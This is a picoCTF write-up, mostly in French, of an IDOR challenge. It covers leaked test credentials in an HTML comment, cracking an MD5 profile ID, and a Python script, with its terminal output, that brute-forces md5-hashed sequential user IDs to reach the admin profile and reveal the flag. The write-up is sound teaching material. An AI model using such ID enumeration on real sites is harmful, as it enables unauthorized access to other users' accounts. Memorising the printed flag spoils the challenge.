



## Description

You have gotten access to an organisation's portal. Submit your email and password, and it redirects you to your profile. But be careful: just because access to the admin isn’t directly exposed doesn’t mean it’s secure. Maybe someone forgot that obscurity isn’t security...

Can you find your way into the admin’s profile for this organisation and capture the flag?

## Phase 1 - Reconnaissance et Analyse Initiale

En inspectant le code source HTML de la page d'accueil (Login), un commentaire laissé par les développeurs expose des identifiants de test :



L'authentification avec ces informations réussit et provoque une redirection automatique vers l'interface utilisateur.

L'URL générée après connexion est la suivante :

`http://crystal-peak.picoctf.net:51174/profile/user/e93028bdc1aacdfb3687181f2031765d`

L'identifiant final est composé d'une chaîne de 32 caractères hexadécimaux, ce qui correspond à la signature d'un algorithme **MD5**.

## Phase 2 - Identification de la Vulnérabilité (IDOR)

En soumettant le hash `e93028bdc1aacdfb3687181f2031765d` sur la plateforme de déchiffrement en ligne **[CrackStation](https://crackstation.net/)** , la valeur brute équivalente est identifiée :

- **Résultat :** `3000`
    


L'application souffre d'une vulnérabilité de type **IDOR** (Insecure Direct Object Reference). Au lieu d'implémenter un contrôle d'accès strict basé sur la session, le mécanisme repose uniquement sur l'obscurcissement des identifiants numériques séquentiels convertis en MD5 : `md5(ID)`.

Les tests manuels sur les identifiants initiaux classiques (`1` et `2`) retournent une erreur `User not found`. L'infrastructure des comptes semble démarrer ou être regroupée autour du palier `3000`.

## Phase 3 - Automatisation et Exploitation (Brute Force)

Afin de découvrir le profil de l'administrateur sans tester manuellement chaque possibilité, un script d'automatisation en Python est exécuté pour balayer les identifiants adjacents à `3000`.

### Script d'exploitation (`idor_brute.py`) :

```python
import requests
import hashlib

base_url = "http://crystal-peak.picoctf.net:51174/profile/user/"
# Définition d'une plage de recherche autour de l'ID initial 3000
wordlist_id = range(2950, 3050) 

print("[*] Démarrage du Brute Force IDOR...")

for num in wordlist_id:
    id_str = str(num).encode('utf-8')
    md5_hash = hashlib.md5(id_str).hexdigest()
    url = f"{base_url}{md5_hash}"
    
    response = requests.get(url)
    
    if "not found" not in response.text.lower():
        print(f"[+] ID Trouvé : {num} | Hash: {md5_hash} | URL: {url}")
        
        if "pico" in response.text or "admin" in response.text:
            print(f"[!!!] Flag détecté sur le profil {num} !")
            break
```

### Exécution et Sortie du Terminal :

```bash
python idor_brute.py
[*] Démarrage du Brute Force IDOR...
[+] ID Trouvé : 3000 | Hash: e93028bdc1aacdfb3687181f2031765d | URL: http://crystal-peak.picoctf.net:51174/profile/user/e93028bdc1aacdfb3687181f2031765d
[+] ID Trouvé : 3018 | Hash: 9a96a2c73c0d477ff2a6da3bf538f4f4 | URL: http://crystal-peak.picoctf.net:51174/profile/user/9a96a2c73c0d477ff2a6da3bf538f4f4
[!!!] Flag détecté sur le profil 3018 !
```

Le script isole l'ID valide `3018` dont l'empreinte MD5 est `9a96a2c73c0d477ff2a6da3bf538f4f4`.



## Phase 4 - Capture du Flag

En naviguant directement sur l'URL compromise associée à l'administrateur :

`http://crystal-peak.picoctf.net:51174/profile/user/9a96a2c73c0d477ff2a6da3bf538f4f4`

La page renvoie le message d'accueil privilégié ainsi que le flag :

```text
Welcome, admin! Here is the flag: picoCTF{id0r_unl0ck_fa544448}
```

## 🏁 Flag

```
picoCTF{id0r_unl0ck_fa544448}
```
